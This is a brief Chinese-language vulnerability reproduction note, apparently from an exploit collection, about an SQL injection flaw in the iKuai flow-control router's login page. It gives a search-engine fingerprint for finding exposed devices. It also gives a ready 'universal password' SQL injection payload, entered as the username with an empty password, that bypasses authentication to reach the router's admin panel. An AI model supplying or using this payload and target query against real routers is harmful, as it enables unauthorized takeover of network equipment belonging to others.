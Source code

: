 # iKuai 流控路由 SQL注入漏洞

## 漏洞描述

iKuai 流控路由 存在SQL注入漏洞，可以通过SQL注入漏洞构造万能密码获取路由器后台管理权限

## 漏洞影响

```
iKuai 流控路由
```

## 网络测绘

```
title="登录爱快流控路由"
```

## 漏洞复现

登录页面如下

![](./images/202202140931704.png)

使用万能密码登录后台

```plain
user: "or""=""or""="
pass: 空
```

![](./images/202202140931830.png)